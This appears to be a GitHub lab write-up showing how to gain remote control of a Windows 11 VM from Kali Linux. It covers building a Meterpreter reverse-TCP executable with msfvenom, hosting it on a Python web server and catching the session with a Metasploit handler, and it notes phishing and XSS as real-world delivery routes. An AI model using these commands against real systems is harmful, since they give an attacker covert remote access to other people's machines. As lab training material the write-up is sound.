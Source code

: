 # Windows 11 Meterpreter Payload Demonstration

### Objective:

Demonstrate the process of creating, delivering, and executing a malicious payload to establish remote access/control to a Windows 11 machine.

### Test Environment:

The simulated test environment consists of two virtual machines:
* **Kali Linux VM:** Acts as the attacker machine.
* **Windows 11 VM:** Serves as the target machine.

### Tools:

* **VMware**
* **Kali Linux**
* **Metasploit**


## Steps

### 1. Obtain host IP address

```
ifconfig
```

### 2. Payload Creation with MSFvenom

MSFvenom is a component of the Metasploit framework used to create payloads for the exploitation of target devices.

The payload created will execute as an `.exe` file named “plague”. The `plague.exe` file is configured with the Kali Linux machine’s IP (LHOST) and listening port (LPORT). When executed in the target machine, the file will connect to our Kali Linux machine to establish a bridge between our target and attacking machine.

**Payload Creation Command:**
``` 
msfvenom -p windows/x64/meterpreter\_reverse\_tcp \\

LHOST=<IP-ADDRESS> \\

LPORT=1122 \\

\-f exe \\

\-o plague
```
*Replace `<IP-ADDRESS>` with the actual IP address obtained in Step 1.*

![image](https://github.com/user-attachments/assets/4c3ef797-f4cf-47bb-89f7-51250ae8a0fa)


### 3. Create Python Webserver for Payload Delivery

To transfer the malicious plague.exe file to our target, I will utilize a python server created on my local subnet. Real world scenarios would involve social engineering, cross-site scripting (XSS), phishing, etc.

**Initiate the Python 3 HTTP Server on Port 8080:**
```
python3 -m http.server 8080
```
![image](https://github.com/user-attachments/assets/af23b722-f206-4dfe-90cc-3f8428ead2a1)


### 4. Configuring Metasploit Handler

When our payload is deployed, our Kali Linux machine will need to be ready to accept the incoming connection from our payload. To receive the incoming connection, we will configure a Metasploit handler.

**Launch Metasploit:**
```
sudo msfconsole
```

**Initiate Handler:**

The handler will listen for incoming connections from the payload.

```
use exploit/multi/handler
```
![image](https://github.com/user-attachments/assets/60836d48-9869-4cfa-9966-95d700cf34c5)


### 5. Define Expected Payload

The handler is configured to the correct specifications of our payload and target machine. Our target machine is a Windows 11 machine running on 64-bit OS with payload communication from a meterpreter\_reverse\_tcp payload

**Set Handler Specifications:**

```
set payload windows/x64/meterpreter\_reverse\_tcp

options
```

![image](https://github.com/user-attachments/assets/13e72301-ba0d-4937-a615-5d452c8bd670)


Executing the options command will display the parameters for the handler. To ensure proper connection, we will need to configure the parameters to our plague.exe payload.

**Set the Listening Host and Port:**

```
set LHOST <ip-address>

set LPORT 1122
```
*Replace `<IP-ADDRESS>` with the actual IP address obtained in Step 1.*

### 6. Execute Exploit

```
exploit
```
![image](https://github.com/user-attachments/assets/a64c6f81-6cb5-4165-b31a-df5596942e91)

### 7. Payload Delivery and Execution

From the Windows 11 target machine, we must navigate to our Python 3 HTTP server.

**Input Address to HTTP Server:**

```
<ip-address>:8080
```
![image](https://github.com/user-attachments/assets/54a2a28a-f0fa-4b92-9d2e-7a1b90a98a9e)


*Replace `<IP-ADDRESS>` with the actual IP address obtained in Step 1.*

Click `plague.exe` to download the payload onto the target system and run the payload.

![image](https://github.com/user-attachments/assets/aeb0ce4e-ee43-4818-8738-6c5b8b2cd6a7)

### 8. Session Confirmation and Control

Upon successful execution of the `plague.exe` payload on the Windows 11 target, a **Meterpreter session** is established on the attacking Kali Linux machine. Control has now been established - granting command-line interface (CLI) and system access to the target machine.
![image](https://github.com/user-attachments/assets/3c43b6af-7323-4b31-8854-af4a4dc9962e)
![image](https://github.com/user-attachments/assets/a3ca6fae-0465-4ebb-86ce-13277fceebc7)
![image](https://github.com/user-attachments/assets/4756c891-3ae8-421e-9be6-f8e0548129b2)



